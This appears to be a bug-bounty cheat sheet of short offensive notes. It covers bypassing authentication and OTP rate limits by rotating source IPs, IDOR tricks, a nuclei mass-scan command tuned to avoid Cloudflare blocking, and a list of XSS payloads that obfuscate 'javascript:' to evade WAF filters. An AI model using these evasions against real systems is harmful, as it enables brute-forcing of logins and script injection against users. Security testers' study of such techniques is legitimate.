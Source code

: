 **Rate Limiting bypass with IP Rotate**

```
Sometimes rate limiting for authentication or OTP are based off source IP, this can be bypassed using Amazon API's and IP Rotate. 

https://portswigger.net/bappstore/2eb2b1cb1cf34cc79cda36f0f9019874
```

**IDOR Tricks & Bypasses**

```
If fields are passed in clientside requests try another db Field - https://twitter.com/m0chan98/status/1286215630253850625/photo/1


https://www.notion.so/IDOR-Attack-vectors-exploitation-bypasses-and-chains-0b73eb18e9b640ce8c337af83f397a6b

```

**Nuclei**

```
Can take numerous templates across various hosts to find known vulnerabilities. 

Requires you specify a custom user agent unless Cloudfare drops all traffic.

nuclei -l newsubs.httprobe -c 60 -t /root/tools/BotTemplates/ -o newsubs.httprobe.nuclei -H "User-Agent: User-Agent: Mozilla/5.0 Windows NT 10.0 Win64 AppleWebKit/537.36 Chrome/69.0.3497.100"
```

**Artifactory Stuff**

```
#https://www.errno.fr/artifactory/Attacking_Artifactory

```

**Cross-Site Scripting Bit n Bobs**

```
Got a lot to add here (naturally) but for the time being just noting down this bypass.

If exploiting <a href></a> xss and "javasript" is blocked by WAF or URL then try the below.

Add any number of \n \t or \r in the middle
java\nscript:

Add characters from \x00- \x20 at the beginning

\x01javascript:


Randoomize the case

jaVAscrIpT:

Can also use the below to get rid of the word JavaScript all together

\u006A\u0061\u0076\u0061\u0073\u0063\u0072\u0069\u0070\u0074\u003aalert(1)

\x6A\x61\x76\x61\x73\x63\x72\x69\x70\x74\x3aalert(1)

```
